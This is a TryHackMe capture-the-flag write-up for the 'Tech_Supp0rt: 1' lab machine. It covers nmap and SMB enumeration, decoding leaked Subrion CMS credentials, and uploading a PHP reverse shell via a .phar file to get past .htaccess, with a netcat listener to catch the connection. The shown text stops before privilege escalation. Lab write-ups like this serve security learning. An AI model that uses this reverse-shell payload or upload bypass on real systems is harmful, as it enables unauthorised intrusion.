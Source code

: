 # Tech_Supp0rt: 1 - TryHackMe Writeup

## Description
Tech_Supp0rt: 1 is a beginner-friendly box on TryHackMe designed to simulate a real-world technical support scenario. The challenge involves identifying vulnerabilities, exploiting misconfigurations, and escalating privileges to gain root access. This writeup documents the step-by-step approach taken to solve the machine, focusing on practical techniques and learning outcomes.

**Note:** Metasploit was not used during the solution of this machine. All exploitation and enumeration were performed manually to encourage deeper understanding of the underlying processes.

---

## Enumeration
For enumeration I used a simple nmap scan with the key -A (which includes -sC - simple scripts, -sV - port and services scan, -O - OS detection):

```bash
nmap -A 10.201.31.100
```

![Nmap Scan](assets/nmap-scan.png)

The scan has identified 4 open ports:
- 22: SSH
- 80: HTTP
- 139: Legacy SMB file sharing
- 445: Current standard for SMB file sharing

The detailed nmap scan also revealed that the security for Samba is relatively weak and can be accessed in guest mode (no authenticaion), so I will start with searching through the samba shared files. For this we will use this smbclient command:

```bash
smbclient -L //10.201.31.100/ -N
```

This command lists all the available shares (-L) on the target as well as supresses the password prompt, since we already know that a connection can be established with a guest account:


![Samba Scan](assets/smb-scan.png)

The websrv share is exactly what we are looking for here. Lets connect to the share and inspect what it contains. For this purpose I used the same command, but removed the -L key to simply connect to the share instead of listing:

```bash
smbclient //10.201.31.100/websvr -N
```

![Samba Share](assets/smb-share.png)


And there it is! Using simple commands - ls and get, we have spotted the file enter.txt and downloaded it for later inspection.

Let us take a look at what is inside the file we have just downloaded.

![Enter.txt File](assets/enter.txt.png)

The samba share is cleared now. Now we will see what we have on the HTTP front, but first lets assess the txt file. The file describes 'goals' for the admin, they include:
- Setting up a fake popup website
- Fix the subrion from the /panel, as there is an issue with the /subrion
- Edit the wordpress webiste

This is all very important information. The admin gave us the location to one of the panels - the subrion panels. Under that he also included the credentials for subrion:
- **admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk**

However it also states the credentials were 'cooked with a magical formula', which probably implies encoding of some kind. Upon a first look we can conclude that the key is not base64 or base32 encoded, since they typically contain a signature '=' or '==' sign at the end.

After running multiple tests on the string and searching for a good decypher tool, I found this one:
- https://gchq.github.io/CyberChef

This tool can be used to encode/decode various inputs such as base64, base32, hexdump and many more. However, the most interesting tool on this website is 'Magic', which really connects to the hint left to us by the admin - "Cooked with a **magic** formula".

Using that tool on the key we found, gives us the following result:

![CyberChef](assets/CyberChef.png)


So here are the credentials for the Subrion panel:
- **Username: admin**
- **Password: Scam2021**

---

## Gaining Access

Now, that we have the credentials for the Subrion panel, let us go and see the web page for ourselves. First lets head to http://10.201.31.100/. 

We are greeted with the defualt apache index.html page:

![Apache Page](assets/apache-page.png)

Now lets try and view the subrion using /subrion:

![Subrion Issue](assets/subrion-issue.png)

I assume this is the issue the admin was talking about. The CMS is misconfigured which leads to a redirection of the home page.

Since we already know that a subrion panel exists and that it should not have the smae issue, lets visit that page and use the credentials we have already acquired:

![Subrion Logoin](assets/subrion-login.png)


![Subrion Panel](assets/subrion-panel.png)

Now, if we go onto the System ---> System on the left dock we can see that the site url is misconfigured:

![Subrion Panel](assets/subrion-misconfig.png)

Fix the issue by inserting the correct IP address instead of the faulty one. This will be crucial for latter steps.

The issue with redirection is now fixed, lets proceed.

Now we have to find a way to plant a reverse shell to get ahold of the system. There are mutliple ways of achieving that:
- Metasploit framework - can quickly discover a vulnerability and exploit it.
- Finding the vulnerability manually, but using a pre-written exploit - finding the vulnerability in the web and using a script written to exploit that vulnerability.
- Manually finding the vulnerability and exploiting it.

The method we are going to be using is the last one. For simple CTFs like the one we are doing, performing a completely manual pentest seems to me like a much better option for self-development.

Uploading a reverse shell and launching it could be done in two ways on Subrion. First way is creating a new php page with a code instructing it to send a interactive bash shell to your session (IP + port). I have failed to achieve the result this way, since Subrion was really hesitant about importing php code onto a page, even simple obfuscation did not work. 

The second way would be to upload a php script from personal files onto the CMS and using the /uploads directory to open it up. Here things are also a little tricky, most likely due to the Apache configuration. I believe the file .htaccess is blocking any php files from running, or it could be the Subrion itself. Nevertheless, while trying to find a way to overcome this issue, I found this on one of descriptions of Subrion CMS vulnerabilities:

**/panel/uploads in Subrion CMS 4.2.1 allows remote attackers to execute arbitrary PHP code via a .pht or .phar file, because the .htaccess file omits these.**

This confirmed my deduction regarding .htaccess block and also gave us a way to create and plant the php code into the uploads directory and afterwards successfully launch it.

Here is what we are going to do:

Create a simple php file with the following code, you can use the following:

```bash
<?php
system("bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
?>
```

I am going to use my ip plus port 7777 since it is very rarely occupied.
Name your file something like shell.phar or shell.pht (.phar worked perfectly for me).

![shell.phar file](assets/shell-file.jpg)

After creating the file, go to Content ---> Uploads in Subrion Panel. You should get a page which looks like this:

![Subrion Uploads](assets/subrion-uploads.png)

On the top panel, there is a button 'Upload files' or just drag-and-drop the reverse shell you have just created:

![Shell Uploaded](assets/shell-uploaded.png)

Nice! Now, before launching the shell, lets create a session on our end that awaits incoming connections. We can accomplish that with the following netcat command:

```bash
nc -nlvp 7777
```

The last parameter is the port number that you have used when creating the reverse shell, as I have previously stated, I chose 7777.

![NetCat Listen](assets/netcat-listen.png)

Now that our devices is awaiting a connection attempt, lets launch the reverse shell we have planted:

Go to the directory /subrion/uploads/NAME_OF_THE_SHELL in the browser. For example, the link I will use to start the reverse shell is:

```bash
http://10.201.31.100/subrion/uploads/shell.phar
```

![Shell URL](assets/shell-url.png)

And this is the result we get on our device:

![Connection Established](assets/nc-connection.png)

We have successfully deployed a reverse shell. Now we need to perform a Local Privilege Escalation (LPE) to gain access to root.txt.

Let's look at what we have on the server:

![Listing Server](assets/listing-server.png)

The Subrion directory is now useless; it has served its purpose.

